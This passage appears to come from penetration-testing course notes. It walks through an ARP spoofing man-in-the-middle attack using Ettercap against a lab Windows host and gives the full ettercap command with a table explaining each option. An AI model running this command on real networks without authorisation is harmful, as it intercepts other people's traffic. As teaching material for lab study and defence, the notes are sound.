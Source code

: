 Example:

* Press `l` to list connected devices (similar to `netdiscover` output).

---

# 🧠 ARP Spoofing with Ettercap

## 🔹 Recap

* Previously: Learned Ettercap basics and how to list connected hosts.
* Now: Performing an **ARP Spoofing (Man-in-the-Middle)** attack using Ettercap.

---

## 🔹 Understanding the Setup

### ✅ Network Overview

* Target: Windows machine

  * IP → `10.22.15.9`
  * Gateway → `10.22.15.1`
* Attacker: Kali machine

  * Interface → `eth0` (or `eth0` equivalent)
  * IP → `10.22.15.8`

🧩 **Key rule:**
Both attacker and victim must be on the **same subnet** (e.g. `10.22.15.x`).

---

## 🔹 Command Structure

### Base Command:

```bash
ettercap -Tq -M arp:remote -i eth0 //10.22.15.1// //10.22.15.9//
```

### Breakdown:

| Option           | Meaning                            |
| ---------------- | ---------------------------------- |
| `-T`             | Text interface                     |
| `-q`             | Quiet mode                         |
| `-M arp:remote`  | Specify MITM method = ARP spoofing |
| `-i eth0`        | Interface to use                   |
| `//10.22.15.1//` | Group 1 = Gateway                  |
| `//10.22.15.9//` | Group 2 = Target                   |
